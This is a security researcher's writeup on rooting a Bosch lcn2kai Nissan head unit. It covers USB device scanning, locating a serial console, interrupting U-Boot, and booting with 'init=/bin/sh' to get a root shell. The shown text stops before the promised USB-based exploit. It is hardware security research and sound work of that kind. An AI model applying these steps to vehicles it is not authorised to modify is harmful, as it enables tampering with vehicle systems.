






# Rooting Bosch lcn2kai Headunit


  

My Nissan Xterra came with a (for the time) modern head unit that has a touch screen, built-in navigation, backup camera display, multimedia features and smartphone connectivity. Some of the more advanced features are only available through NissanConnect App which requires registration and subscription. I've never used it and I'm not even sure if it's still supported. 

Wouldn't it be neat if were able to get code execution on the device and even develop extensions and apps of our own? 

One of the features I wanted to see is a simple GPS data logger and that idea will serve as guidance and goal in this reverse engineering and rooting endeavor. In this writeup, I present my approach to analyzing the system, enumerating possible attack surface, getting a shell via physical access and leveraging that to come up with an exploit that **doesn't require taking your dashboard apart** and results in a clean **root access over ssh**. 

I will share the code to reproduce this on your vehicle and a sample application that achieves the GPS data logging goal. However, here **you will find ABSOLUTELY NO information about bypassing any DRM/copyright mechanisms**, especially related to navigation maps and any online services. Moverover, any code or instructions herein come with no warranty and you follow them at your own risk. 

For a quick guide on how to root your own Nissan head unit follow: [Rootshell How-To](docs/rootshell_howto.md)

For an overview of the whole system: [System overview](docs/system_overview.md)

For a sample custom extension: [Example of a custom extension - GPS logger](docs/custom_apps_and_gps.md)


#### Table Of Contents

- [Cars running lcn2kai](#cars-running-lcn2kai)
- [Attack surface](#attack-surface)
  * [Secret menu](#secret-menu)
  * [Firmware update](#firmware-update)
  * [Enumerating USB devices](#enumerating-usb-devices)
- [Getting dirty](#getting-dirty)
  * [Finding serial console](#finding-serial-console)
  * [Root via u-boot & ssh](#root-via-uboot-and-ssh)
- [An accessible vulnerability and non invasive exploit](#an-accessible-vulnerability-and-non-invasive-exploit)
- [Where from here](#where-from-here)

## Cars running lcn2kai

I would like to build an expanded list of headunits and car makes/models/years that are affected by the bug we'll abuse to gain root shell access with. So far, that list includes numerous Nissan models from around 2015 onward including Xterra, Rogue, Sentra, Altima, Frontier as well as some other Nissan comercial vehicles. Given that the head unit in question is manufactured by Bosch, chances are that the same platform can be found in many other vehicles. 

Put simply, if your headunit looks similar to the photo above, chances are that this exploit (or a similar variation) would work. 

So far, I've only tested this on my 2015 Nissan Xterra. 

Internally (and partially externally) Bosch and Nissan seem to reffer to this head unit version as lcn2kai which is how I'll be addressing it in these docs. If anybody happens to know what it stands for, I'd like to know.

## Attack surface

Ultimately, I'd like to be able to gain root on my car without having to use a screwdriver. I'm no stranger to taking things apart but have an odd habit of ending up with extra parts after reassembly. That will basically guide where I'll be looking for vulnerabilities first. 

Looking at it, as installed in a car, headunit's interaction with the outside world comes either through a USB port in the handrest/console or via bluetooth connectivity. USB port is meant for additional multimedia content served via usb flash drive or a smartphone and bluetooth connectivity can be used to interact with a smartphone (playing music, handsfree calls , NissanConnect app...). Ideally, I'll be looking for a code execution vulnerability that can be triggered through either of these as it could be performed in-place, without removing the head unit from the dash board. 

### Secret menu

A "secret" operator menu can be accessed by pressing and holind "App" button, then rotating the "TUNE" knob anti-clockwise a couple of clicks, then clockwise , then anticlockwise again. When this cheat code is entered, a new menu is opened that has several diagnostics options, head unit version information as well as a firmware update option.



### Firmware update

Writeups on jailbreaking and rooting other car infotainment systems and headunits (like this excellent writeup on [jailbreaking Subaru Starlink](https://github.com/sgayou/subaru-starlink-research/blob/master/doc/README.md) ) have always paid special attention to firmware upgrades because that's when the systems are most exposed. 

There have been various versions of firmware updates for lcn2kai shared on random online forums that were obtained one way or the other. Head unit I'm working on haven't been updated since it was sold, parts relevant to this writeup remain unchanged on all versions. 



Firmware update is performed by first plugging in a USB stick that contains firmware update images and then entering the secret menu, selecting the update/upgrade option and following instructions. When the upgrade process is initiated, the system reboots into an upgrade mode, performs thorough cryptographic validation on supplied firmware upgrade files and only then proceeds to copy/flash/update. 

While firmware files and packages aren't encrypted, they are properly digitaly signed. Every component of the firmware upgrade (kernel, boot loader, linux file system...) is hashed and signed via standard public key cryptography algorithms and the whole scheme looked solid. I cautiously want to stay clear of trying to break any DRM, so I decided to move on with a bookmark to return to this process if all else fails. 

### Enumerating USB devices

The intended use for the exposed USB port is for either for loading gigabytes of MP3s for those long drives, for playing your Spotify favorites via your smartphone or simply as a usb charger. That being said, it would be interesting to know if the headunit supports has drivers for and supports any additional devices. Usuall trick is to simply plug in a keyboard in hopes it would give you console access. 

One easy trick to check if keyboard is supported at all (if the underlying system is Linux) is to issue a [Magic SysRq Key](https://en.wikipedia.org/wiki/Magic_SysRq_key) sequence to try and reboot the system. This actually does work on lcn2kai, but it turns out that the keyboard isn't connected to the console at all. So while kernel does process SysRq keys, it's otherwise useless. 

We could try and plug in random USB devices that we have, but that list is usually relatively short. A more automated way to do this would be to use [Facedancer and umap2](https://github.com/nccgroup/umap2). Facedancer can emulate diferent USB devices so one can simply cycle through different VID and PID values to detect which devices are supported by the host. Umap2 comes with a script called `umap2vsscan` which does just that:

```
umap2vsscan -P fd:/dev/ttyUSB0 -d $UMAP2_DIR/data/vid_pid_db.py
```

This would scan through a huge list of known VID and PID combinations and will print out the corresponding device (and Linux driver from which VID/PID came from). Since this can take quite a while, we can filter out this list a bit to focuse on what's interesting to us. There's basically two types of devices I'd be interested in finding support for: a TTL2USB adapter (like FTDI serial cables) that would somehow be connected to serial console by udev or something, or a USB network adapter that would hopefully be autoconfigured, or would take an address via DHCP. Editing the list that comes with umap2 to only contains those leaves us with about 1000 devices, which is acceptable and doable in reasonable time, just be careful no to kill your car battery while waiting for this to finish. 

With patience , we get the following result:

```
[ALWAYS] Found 1 supported device(s) (out of 1098):
[ALWAYS] 0. vid:pid 077b:2226, vendor: Linksys, product: USB200M 100baseTX Adapter,
driver: drivers/net/usb/asix_devices.c, info: device not reached set configuration state
```

This is great news. Driver `asix_devices.c` is used by a very very common USB ethernet adapter. Chances are your local electronics store has one randomly branded for about $10. I found this one that suits the purpose:


One of the ways to make sure, before purchasing, the usb ethernet adapter indeed uses `asix_devices` driver is to search the manufacturer's website for Linux drivers. Although mostly useless because every linux installation will already come with it built in, you can often find a tarball that contains the driver the device uses. 

Now the question is if it will actually work. Plug the usb ethernet adapter into car's USB port, connect it via ethernet cable to your laptop and observe the LEDs turn on! The device seems to be initialized, but there are no DHCP requests. Sniffing the network with Wireshark, though, reveals that something is sending packets from IP `172.17.0.1`. Further more, it seems to be sending out TCP SYN packets to port 7000 with destination address `172.17.0.5`. It seems like the lcn2kai expect the other end of ethernet connection to have `172.17.0.5` assigned and indeed configuring laptop's ethernet port with this static IP seems to work. Starting up netcat to listen on port 7000 and it will get a connection from lcn2kai which will send a bunch of binary data. It will later be revealed that this is part of a tracing framework, possibly used to aid debugging during development. 

At this point, I was hoping to find some sort of server listening on some port that would serve as a good attack point, but no such luck. Scanning the device via Nmap reveals that all but one port are blocked by firewall. That one port is 22, for SSHd, but even though it's not blocked by firewall, nothing is listening on it. This is good news, though. It means we'll have an easy way of connecting to the system once we enable SSH server. 

## Getting dirty 

I've explored some other, obvious, venues of attack in hope of striking gold randomly. These included various attempts at command injection via file system names, phone bluetooth IDs , special files on the drives... None of it worked immediately. It was time to get a test device and take a peak inside, to try to get a shell with physical access. 

You can easily find lcn2kai head units on eBay. If they are from a wrecked car, or are missing a button or two, you can get the pretty cheaply. That's what I did and this one showed up at my doorstep a few days later. 


  
Powering on the unit is straightforward. It takes 12V and needs just over 1 amp at most, so any bench power supply will work nicely. To get the unit to power on, besides Vcc and GND , an Ignition pin must be connected to Vcc. 


  
In addition to power, we should take the time to break out the USB port , too. If you are lucky , you eBay purchase could come with a cable harness already. Mine didn't. 

After taking the whole unit apart, we can see that the important bits are on the underside, with the sheet metal body serving as a large heat sink. 


  
Several groups of components can be distinguished on the board. There's an STMicro FM/AM/audio IC to the left, Maxim GPS mid-top and an Altera for SiriusXM I presume? Main CPU is ARM, manufactured by NEC by the looks of it. I couldn't find a specific datasheet for this one, but we'll be able to gather some more info later. Right by the main CPU are two unpopulated headers. Upper of these two actually lines up with a covered hole on the bottom of the metal case which would suggest it was intended to be pupulated with a debug header of some sort and used during development. 



### Finding serial console

There are no useful labels on either side of the board, but those two unpopulated header footprints are likely a good place to start hunting for UART. With an oscilloscope, this is a simple matter of touching the pads with the probe and power cycling the device until we find something that looks like data. With some trial and error, this will quickly identify serial console TX pin (orange in the photo). Figuring out the RX pin is less obvious, but what you can do is connect a USB/Serial adapter and write a script that just spews out characters to it's TX pin. On the other side, once the device is booted up and TX pin looks quiet, you just keep the oscilloscope probe on it. Now, if you are lucky, echo will be on on the console, so once you hit the correct RX pin, data will again begin showing up on TX. Again, with some trial and error (and persistence) one can identify RX as well (blue wire in the photo). Next step is to guess the baud rate, which is just a matter of trying out several standard values (remember to first ground your USB serial adapter to proper device ground).

Lcn2kai's console uses `115200` baud, connecting to it and booting up the unit greets us with the following boot log:

```
[    0.009674]
[    0.009698] U-Boot 2010.03-00391-gf3b3496 (May 15 2014 - 16:53:57) for NEC NEmid
[    0.009754]
[    0.009772] (C) 2009-2010 Robert Bosch Car Multimedia, CM-AI/PJ-CF32, Dirk Behme
[    0.009830] CPU:      MPCore at 400MHz
[    0.009866] U-Boot    #1 (env @ 0x40080000)
[    0.009904] Board:    NEmid based LCN2kai TSB4 Sample (1G) board
[    0.009954] Board ID: 0x3007 (#1)
[    0.011105] DRAM:   1 GB
[    0.011185] PRAM cleared
[    0.011208] Reset Counter cleared
[    0.011238] Reset Counter has the value 0
[    0.011962] Flash: S-Die
[    0.012041] Flash: 64 MB
[    0.012073] *** Warning - bad CRC, using default environment
[    0.012117]
[    0.012538] In:    serial
[    0.012563] Out:   serial
[    0.012587] Err:   serial
[    0.014028] Reset Counter cleared
[    0.014063] Reset Counter cleared
[    0.014509] Net:   No ethernet found.
[    0.014592] Hit any key to stop autoboot:  0
[    0.017803] ## Booting kernel from Legacy Image at 40920000 ...
[    0.017889]    Image Name:   triton_min_dualos
[    0.017926]    Image Type:   ARM RbcmRTOS Kernel Image (uncompressed)
[    0.017987]    Data Size:    1294164 Bytes =  1.2 MB
[    0.018040]    Load Address: 80000000
[    0.018074]    Entry Point:  80000290
[    0.018140]    Loading Kernel Image ... OK
[    0.050506] OK
[    0.050965]
[    0.050978] Starting guest OS ...
[    0.051045] ## Booting kernel from Legacy Image at 40220000 ...
[    0.051146]    Image Name:   Linux-2.6.34.13-02018-g843e5c6
[    0.051192]    Image Type:   ARM Linux Kernel Image (uncompressed)
[    0.051253]    Data Size:    2076344 Bytes =  2 MB
[    0.051306]    Load Address: 86000000
[    0.051341]    Entry Point:  86000000
[    0.051389]    Loading Kernel Image ... OK
[    0.116345] OK
[    0.236196]
[    0.236213] Starting kernel ...
[    0.236239]
Uncompressing Linux... done, booting the kernel.
```

Alright, we are getting somewhere. We can spot a bunch of useful information from this. First, as expected, U-Boot is being used to boot up the system. NEC Nemid seems to be the name of the base platform. CPU is MPCore at 400MHz, notably dual core. When it comes to booting the OS, it's very interesting to find out that apparently an RTOS is booted up first, followed by Linux. Image name for RTOS is `triton_min_dualos` and some quick lookups would reveal it to be based on T-Kernel or Tron which is a real time operating system popular with Japanese manufacturers. 

This arrangement sort of makes sense, an RTOS to handle timing-sensitive stuff like CANbus data , and a regular OS (Linux) to handle UI, networking , multimedia...

### Root via UBoot and SSH

Now that we have console access , we can let the system boot up fully. After Linux is booted, the usual init system starts a number of services as expected but doesn't actually end up in a shell. We still have no way of interacting with it. Notice, however, in the above bootlog the line that says `Hit any key to stop autoboot:  0`. Usually, U-Boot will be configured with a short timeout to wait for any key stroke to interrup the regular boot process. In this case the timeout is 0, so the boot proceeds right away, but in some cases it can still  be interrupted. One can try to bash the keyboard to send data to the serial port while powering on the device in hopes of interrupting the boot process by chance, but a simple oneliner usually does the job:

```
 cat /dev/zero > /dev/ttyUSB0
```

Executing the above in the terminal, powering on the device, stopping the above command and connecting with `miniterm` will show something like:

```
[    0.012538] In:    serial
[    0.012563] Out:   serial
[    0.012587] Err:   serial
[    0.014028] Reset Counter cleared
[    0.014063] Reset Counter cleared
[    0.014509] Net:   No ethernet found.
[    0.014592] Hit any key to stop autoboot:  0
[    0.017881] NEMID # 
```
This drops us into U-Boot's shell which gives us a chance to inspect more of the environment and change the boot process as we see fit. For the record, the environment and available commands are as follows:

```
[   22.754025] bdinfo  - print Board Info structure
[   22.754068] bootm   - boot application image from memory
[   22.754117] bootp   - boot image via network using BOOTP/TFTP protocol
[   22.754173] cmp     - memory compare
[   22.754209] coninfo - print console devices and information
[   22.754258] cp      - memory copy
[   22.754291] crc32   - checksum calculation
[   22.754330] echo    - echo args to console
[   22.754370] em_trace- display error memory entries in PRAM
[   22.754419] erase   - erase FLASH memory
[   22.754456] exit    - exit script
[   22.754490] false   - do nothing, unsuccessfully
[   22.754533] fatinfo - print information about filesystem
[   22.754581] fatload - load binary file from a dos filesystem
[   22.754632] fatls   - list files in a directory (default /)
[   22.754682] flinfo  - print FLASH memory information
[   22.754728] go      - start application at address 'addr'
[   22.754777] help    - print command description/usage
[   22.754823] imxtract- extract a part of a multi-image
[   22.754870] loop    - infinite loop on address range
[   22.754915] md      - memory display
[   22.754950] mii     - MII utility commands
[   22.754989] mm      - memory modify (auto-incrementing address)
[   22.755041] mtest   - simple RAM read/write test
[   22.755084] mw      - memory write (fill)
[   22.755123] nm      - memory modify (constant address)
[   22.755170] pci     - list and access PCI Configuration Space
[   22.755221] printenv- print environment variables
[   22.755265] protect - enable or disable FLASH write protection
[   22.755318] rarpboot- boot image via network using RARP/TFTP protocol
[   22.755374] reset   - Perform RESET of the CPU
[   22.755417] run     - run commands in an environment variable
[   22.755468] saveenv - save environment variables to persistent storage
[   22.755525] setenv  - set environment variables
[   22.755571] setrtosaddr- set the RAM entry address for the RTOS (autoselected based on the board ID)
[   22.755646] showvar - print local hushshell variables
[   22.755693] sleep   - delay execution for some time
[   22.755737] source  - run script from memory
[   22.755778] startguestos- start guest OS on CPU #2
[   22.755823] startsingleRTOS- start RTOS as single os from flash
[   22.755875] test    - minimal test like /bin/sh
[   22.755918] tftpboot- boot image via network using TFTP protocol
[   22.755971] true    - do nothing, successfully
[   22.756013] update  - perform a recovery update
[   22.756055] usb     - USB sub-system
[   22.756090] usbboot - boot from USB device
[   22.756129] version - print monitor version
[   22.756576] NEMID # printenv
[   27.528646] bootargs=reset
[   27.528675] bootcmd=run setbootargs; if bootm start 0x40920000; then setrtosaddr; bootm loados; startguestos; fi; bootm
[   27.528769] bootdelay=0
[   27.528795] baudrate=115200
[   27.528823] loadaddr=0x40220000
[   27.528854] usbstortimeout=5
[   27.528883] verify=no
[   27.528906] cores=2
[   27.528929] ipaddr=172.17.0.1
[   27.528959] serverip=172.17.0.6
[   27.528990] rootdev2=mmcblk0p2 ro
[   27.529023] rootdev=mmcblk0p1 ro
[   27.529054] uboot=u-boot.bin
[   27.529083] linux=uImage
[   27.529109] dualos=triton_dualos.bin.uimage
[   27.529149] dualosmin=triton_min_dualos.bin.uimage
[   27.529193] rfd=rfd_file.bin
[   27.529222] ramdisk=uInitramfs
[   27.529253] xtargs=quiet ohci-hcd.distrust_firmware=0
[   27.529299] norfsfld=norfs_filled.bin
[   27.529335] norfsmpt=norfs_empty.bin
[   27.529369] panic=1
[   27.529392] panic_on_oops=1
[   27.529420] nfsroot=/opt/bosch/y/di_projects/generated/target_rootfs
[   27.529477] nfsboot=setenv rootdev nfs rw nfsroot=${serverip}:${nfsroot} ip=${ipaddr};saveenv;reset
[   27.529557] bootchart=setenv xtargs ${xtargs} initcall_debug printk.time=y init=/sbin/bootchartd;saveenv; reset
[   27.529644] startusb=usb start; setenv startusb echo 'USB started'
[   27.529700] setfatload=setenv loader fatload usb 0:1 0x80000000 ${loadfile}
[   27.529762] setftpload=setenv loader tftp 0x80000000 ${loadfile}
[   27.529817] setnorloader=echo 'no loader defined'
[   27.529861] flshb=if run loader; then protect off 0x40020000 +${filesize};erase 0x40020000 +${filesize};cp.b 0x80000000 0x40020000 ${filesize};protect off 0x40160000 +${filesize};erase 0x40160000 +${filesize};cp.b 0x80000000 0x40160000 ${filesize};fi
[   27.530047] flshkrnl=if run loader; then erase 0x40220000 +${filesize};cp.b 0x80000000 0x40220000 ${filesize};fi
[   27.530135] flshdls=if run loader; then erase 0x40920000 +${filesize};cp.b 0x80000000 0x40920000 ${filesize};fi
[   27.530223] flshdls2=if run loader; then erase 0x41020000 +${filesize};cp.b 0x80000000 0x41020000 ${filesize};fi
[   27.530312] flshdlsmin=if run loader; then erase 0x40920000 +${filesize};cp.b 0x80000000 0x40920000 ${filesize};fi
[   27.530401] flshrfd=if run loader; then erase 0x40B20000 +${filesize};cp.b 0x80000000 0x40B20000 ${filesize};fi
[   27.530489] flshffs=if run loader; then erase 0x41940000 +${filesize};cp.b 0x80000000 0x41940000 ${filesize};fi
[   27.530577] handle_norfs=erase 0x41940000 0x41afffff
[   27.530623] norfs_default=setenv handle_norfs erase 0x41940000 0x41afffff
[   27.530684] norfs_untouch=setenv handle_norfs echo norfs-untouched
[   27.530740] norfs_empty=setenv handle_norfs run ffsmpt
[   27.530787] norfs_filled=setenv handle_norfs run ffsfld
[   27.530835] ffsmpt=echo 'ffsmpt';setenv loadfile ${norfsmpt};run setnorloader; run flshffs
[   27.530908] ffsfld=echo 'ffsfld';setenv loadfile ${norfsfld};run setnorloader;run flshffs
[   27.530980] bootup=echo 'bootup';run startusb;setenv loadfile ${uboot};run setfatload;run flshb
[   27.531057] kernup=echo 'kernup';run startusb;setenv loadfile ${linux};run setfatload;run flshkrnl
[   27.531135] dualosup=echo 'dualosup';run startusb;setenv loadfile ${dualos};run setfatload;run flshdls
[   27.531216] dualosup2=echo 'dualosup2';run startusb;setenv loadfile ${dualos};run setfatload;run flshdls2
[   27.531300] dualosminup=echo 'dualosminup';run startusb;setenv loadfile ${dualosmin};run setfatload;run flshdls
[   27.531388] rfdup=echo 'rfdup';run startusb;setenv loadfile ${rfd};run setfatload;run flshrfd
[   27.531463] tftpu=run startusb;setenv loadfile ${uboot};run setftpload;run flshb
[   27.531529] tftpk=run startusb;setenv loadfile ${linux};run setftpload;run flshkrnl
[   27.531597] tftpd=run startusb;setenv loadfile ${dualos};run setftpload;run flshdls
[   27.531665] tftpd2=run startusb;setenv loadfile ${dualos};run setftpload;run flshdls2
[   27.531734] tftpm=run startusb;setenv loadfile ${dualosmin};run setftpload;run flshdls
[   27.531804] tftpr=run startusb;setenv loadfile ${rfd};run setftpload;run flshrfd
[   27.881598] fatupdate=run clearenv;run bootup;run kernup;run dualosminup;run rfdup;setenv setnorloader ${setfatload};run handle_norfs
[   27.881701] tftpupdate=run clearenv;run tftpu;run tftpk;run tftpm;run tftpr;setenv setnorloader ${setftpload};run handle_norfs
[   27.881800] oldupdate=run fatupdate;setenv xtargs ${xtargs} update=fat;run usbrec1
[   27.881867] fastupdate=setenv linux uImage-fastboot;run fatupdate;setenv xtargs ${xtargs} update=fat;setenv linux uImage;run usbrec1
[   27.881970] fatld_uboot=run bootup
[   27.882003] fatld_kernel=run kernup
[   27.882037] fatld_dualosmid=run dualosup
[   27.882075] fatld_dualosmid2=run dualosup2
[   27.882114] fatld_dualosmin=run dualosminup
[   27.882153] fatld_rfd=run rfdup
[   27.882184] fatld_ffsmpt=run startusb;setenv setnorloader ${setfatload};run norfs_empty;run handle_norfs
[   27.882267] fatld_ffsfld=run startusb;setenv setnorloader ${setfatload};run norfs_filled;run handle_norfs
[   27.882351] fatld_ffskill=run norfs_default; run handle_norfs
[   27.882403] tftp_uboot=run tftpu
[   27.882435] tftp_kernel=run tftpk
[   27.882468] tftp_dualosmid=run tftpd
[   27.882502] tftp_dualosmid2=run tftpd2
[   27.882539] tftp_dualosmin=run tftpm
[   27.882573] tftp_rfd=run tftpr
[   27.882604] tftp_ffsmpt=setenv setnorloader ${setftpload};run norfs_empty;run handle_norfs
[   27.882677] tftp_ffsfld=setenv setnorloader ${setftpload};run norfs_filled;run handle_norfs
[   27.882750] tftp_ffskill=run norfs_default; run handle_norfs
[   27.882802] usbrecover=run setbootargs; update /
[   27.882845] usbdhcprecover=setenv xtargs ${xtargs} update=fab_dhcp; run usbrecover
[   27.882913] usbrec1=run startusb;run setbootargs;if fatload usb 0:1 0x85A00000 ${linux}; then setenv uid 0;elif fatload usb 1:1 0x85A00000 ${linux};then setenv uid 1; else run usbrecf; fi; run usbrec2
[   27.883063] usbrec2=if fatload usb ${uid}:1 0x85000000 ${ramdisk};then if fatload usb ${uid}:1 0x82000000 ${dualos};then run usbrec3; fi; fi; run usbrecf
[   27.883181] usbrec3=if bootm start 0x82000000; then setrtosaddr;if bootm loados; then startguestos;;bootm 0x85A00000 0x85000000; fi; fi; run usbrecf
[   27.883295] usbrecf=echo *** USB recovery download FAIL, stopping ***
[   27.883353] setbootargs=setenv bootargs console=${console},115200n8n mem=${linuxmem} maxcpus=${cores} root=/dev/${rootdev} rootwait lpj=1994752 panic=${panic} panic_on_oops=${panic_on_oops} usbcore.rh_oc_handler=1 ${xtargs}
[   27.883521] update=run clearbootconfig;run bootup;setenv bootcmd 'run fatupdate; run clearenv; setenv xtargs ${xtargs} update=fat;run setbootargs;run usbrec1';saveenv; reset
[   27.883652] clearresetcounter=mw ffffff14 0
[   27.883692] exitrecovery=setenv bootcmd ${bootcmd_default}; run clearresetcounter
[   27.883758] clearbootconfig=erase 0x400e0000 +1
[   27.883801] clearenv=protect off 0x40080000 +12288;erase 0x40080000 +12288;protect off 0x401C0000 +12288;erase 0x401C0000 +12288
[   27.883901] mrpropper=run exitrecovery;run clearbootconfig;run clearenv
[   27.883961] bootcmd_default=run setbootargs; if bootm start 0x40920000; then setrtosaddr; bootm loados; startguestos; fi; bootm
[   27.884060] stdin=serial
[   27.884086] stdout=serial
[   27.884112] stderr=serial
[   27.884139] console=ttyS0
[   27.884166] linuxmem=768M
[   27.884196]
[   27.884213] Environment size: 5891/131068 bytes
```

This reveals a great deal of useful data which will come in handy in future exploration. Most notably, this allows us to see the boot configuration and how we can change it to get a shell. All we need to do is change the `bootargs` like so:

```
setenv bootargs console=${console},115200n8n mem=${linuxmem} maxcpus=${cores} root=/dev/${rootdev} rootwait lpj=1994752 panic=${panic} panic_on_oops=${panic_on_oops} usbcore.rh_oc_handler=1 4 init=/bin/sh
```

Bootargs is mostly unchanged, but note the last part: `init=/bin/sh`. This tells the boot process to just start a shell , instead of executing full init. Let's see if it will work:

```
[    5.225918] NEMID # setenv bootargs console=${console},115200n8n mem=${linuxmem} maxcpus=${cores} root=/dev/${rootdev} rootwait lpj=1994752 panic=${panic} panic_on_oops=${panic_on_oops} usbcore.rh_oc_handler=1 4 init=/bin/sh
[   14.706586] NEMID #
[   14.707033] NEMID # bootm
[   16.542428] ## Booting kernel from Legacy Image at 40220000 ...
[   16.542532]    Image Name:   Linux-2.6.34.13-02018-g843e5c6
[   16.542581]    Image Type:   ARM Linux Kernel Image (uncompressed)
[   16.542642]    Data Size:    2076344 Bytes =  2 MB
[   16.542695]    Load Address: 86000000
[   16.542731]    Entry Point:  86000000
[   16.542782]    Loading Kernel Image ... OK
[   16.594394] OK
[   16.600193]
[   16.600213] Starting kernel ...
[   16.600241]
Uncompressing Linux... done, booting the kernel.
...
...
...
